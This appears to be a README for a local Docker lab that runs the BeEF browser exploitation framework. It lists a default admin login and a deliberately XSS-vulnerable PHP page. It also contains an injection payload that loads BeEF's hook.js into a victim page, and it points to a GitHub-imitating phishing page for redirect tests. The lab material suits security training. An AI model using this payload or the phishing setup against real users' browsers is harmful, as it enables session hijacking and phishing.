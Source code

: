 # beef playground  
## build docker  
docker build -t beef-playground .  
docker run -it -p 80:80 -p 3000:3000 -p 6789:6789 beef-playground  
  
## beef server launched with  
admin web page: http://localhost:3000/ui/panel  
    user: beef  
    passwd: mybeefpasswd  
hook script: http://localhost:3000/hook.js  
  
## example pages accessible at:  
### Website with XSS vuln:  
XSS URL: http://localhost/xss-minimal.php  
input: <script src=http://localhost:3000/hook.js></script>  
or in URL: http://localhost/xss-minimal.php?name=<script src=http://localhost:3000/hook.js></script>  
  
### Phishing page for redirect test:  
phishing page: http://localhost/examples/github.html  
Module: Redirect iframe or standard  
  
## debug  
inspect docker container:  
docker run -it --entrypoint /bin/bash beef-playground  
in case any ruby gem installations are running an error, the solution is manual install.  
e.g. gem install xmlrpc  
